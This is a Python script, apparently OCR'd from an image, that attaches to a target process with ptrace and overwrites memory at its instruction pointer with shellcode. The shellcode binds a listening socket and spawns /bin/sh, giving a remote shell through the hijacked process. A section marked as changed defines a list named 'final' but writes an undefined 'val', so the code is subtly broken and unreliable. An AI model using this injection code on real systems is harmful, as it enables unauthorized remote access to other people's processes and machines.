 ```python
    	("rbx", ctypes.c_ulonglong),
    	("r11", ctypes.c_ulonglong),
    	("r10", ctypes.c_ulonglong),
    	("r9", ctypes.c_ulonglong),
    	("r8", ctypes.c_ulonglong),
    	("rax", ctypes.c_ulonglong),
    	("rcx", ctypes.c_ulonglong),
    	("rdx", ctypes.c_ulonglong),
    	("rsi", ctypes.c_ulonglong),
    	("rdi", ctypes.c_ulonglong),
    	("orig_rax", ctypes.c_ulonglong),
    	("rip", ctypes.c_ulonglong),
    	("cs", ctypes.c_ulonglong),
    	("eflags", ctypes.c_ulonglong),
    	("rsp", ctypes.c_ulonglong),
    	("ss", ctypes.c_ulonglong),
    	("fs_base", ctypes.c_ulonglong),
    	("gs_base", ctypes.c_ulonglong),
    	("ds", ctypes.c_ulonglong),
    	("es", ctypes.c_ulonglong),
    	("fs", ctypes.c_ulonglong),
    	("gs", ctypes.c_ulonglong),
	]

libc = ctypes.CDLL("libc.so.6")
pid=int(sys.argv[1])
# Define argument type and respone type.
libc.ptrace.argtypes = [ctypes.c_uint64, ctypes.c_uint64, ctypes.c_void_p, ctypes.c_void_p]
libc.ptrace.restype = ctypes.c_uint64
# Attach to the process
libc.ptrace(PTRACE_ATTACH, pid, None, None)
registers=user_regs_struct()
# Retrieve the value stored in registers
libc.ptrace(PTRACE_GETREGS, pid, None, ctypes.byref(registers))
print("Instruction Pointer: " + hex(registers.rip))
print("Injecting Shellcode at: " + hex(registers.rip))
# Shell code copied from exploit db.
shellcode="\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\xff\xc6\x6a\x29\x58\x6a\x02\x5f\x0f\x05\x48\x97\x6a\x02\x66\xc7\x44\x24\x02\x15\xe0\x54\x5e\x52\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x5e\x6a\x32\x58\x0f\x05\x6a\x2b\x58\x0f\x05\x48\x97\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\xf7\xe6\x52\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x48\x8d\x3c\x24\xb0\x3b\x0f\x05"


# CHANGED FROM HERE
# Previously obtained value
final = [1220555080, 826855985, 1791426550, 40523817, 1208291167, 1711434391, 35931335, 1582620693, 1479633490, 257560682, 845831685, 1778716504, 84891691, 57317192, 2966355806, 1963265825, 1390868472, 1647295304, 791637609, 1213425779, 2955164813, 331579]

# Inject the shellcode into the running process byte by byte.
j = 0
for i in range(0,len(shellcode),4):
  # Inject the byte.
  libc.ptrace(PTRACE_POKETEXT, pid, ctypes.c_void_p(registers.rip+i),val[j])
  j +=1

# CHANGED UPTO HERE

print("Shellcode Injected!!")
# Modify the instuction pointer
registers.rip=registers.rip+2
# Set the registers
libc.ptrace(PTRACE_SETREGS, pid, None, ctypes.byref(registers))
```